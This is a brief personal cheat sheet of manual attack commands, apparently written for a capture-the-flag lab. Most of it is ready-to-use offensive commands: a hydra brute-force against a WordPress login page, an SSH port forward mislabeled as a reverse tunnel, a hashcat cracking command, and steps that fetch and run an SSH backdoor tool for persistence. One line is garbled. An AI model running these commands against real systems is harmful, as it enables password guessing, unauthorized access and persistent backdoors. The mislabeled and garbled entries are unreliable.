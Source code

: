 # Manual Attack CheatSheet

## intruder sniper

-later la males

## hydra example

hydra -l Elliot -P wordl.txt 10.10.203.64 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username' -t 30

## spin up rdp

xfreerdp /u:username /v:host


## Reverse SSH Tunnel 
- ss -tulpn
- ssh -L 10000:localhost:10000 <username>@<ip>


## Hashcat
- hashcat -m 1710 "" --force /Users/c3budiman/Hacking/wordlist/rockyou.txt

## SSH backdoor 
- git clone https://github.com/NinjaJc01/ssh-backdoor
- cd ssh-backdoor
- ssh-keygen
- id_rsa
- chmod +x backdoor
- ./backdoor -a hash
